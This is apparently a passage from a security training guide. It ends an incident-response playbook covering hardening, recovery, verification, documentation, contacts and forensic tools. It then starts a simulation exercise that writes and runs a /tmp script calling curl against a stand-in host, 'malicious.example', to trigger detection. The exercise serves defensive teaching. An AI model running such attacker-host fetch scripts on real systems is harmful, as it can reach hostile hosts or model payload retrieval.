 11. **System Hardening**
    - Apply security updates
    - Review configurations
    - Implement additional controls
    - Update firewall rules

### Recovery (2-4 hours)

12. **Restore Operations**
    - Rebuild system if necessary
    - Restore from clean backup
    - Re-image if severe
    - Monitor closely

13. **Verification**
    - Scan for malware
    - Check for IOCs
    - Monitor behavior
    - Confirm clean state

### Post-Incident (Following days)

14. **Documentation**
    - Complete incident report
    - Timeline of events
    - IOCs identified
    - Actions taken
    - Lessons learned

15. **Improvement**
    - Update detection rules
    - Enhance monitoring
    - Train staff
    - Test improvements

### Key Contacts
- SOC Manager: [contact]
- Incident Commander: [contact]
- IT Manager: [contact]
- Legal: [contact]
- PR/Communications: [contact]

### Tools Required
- Memory analysis: Volatility
- Disk forensics: Autopsy
- Network analysis: Wireshark
- Malware analysis: REMnux
- Documentation: TheHive
```

#### Exercise 12: Incident Simulation (20 minutes)

**Simulate a security incident:**

**Scenario:** Malware execution detected

```bash
# Step 1: Create "suspicious" file
echo '#!/bin/bash' > /tmp/suspicious.sh
echo 'curl http://malicious.example/data' >> /tmp/suspicious.sh
chmod +x /tmp/suspicious.sh

# Step 2: Execute (safely - just demonstrates detection)
/tmp/suspicious.sh &

```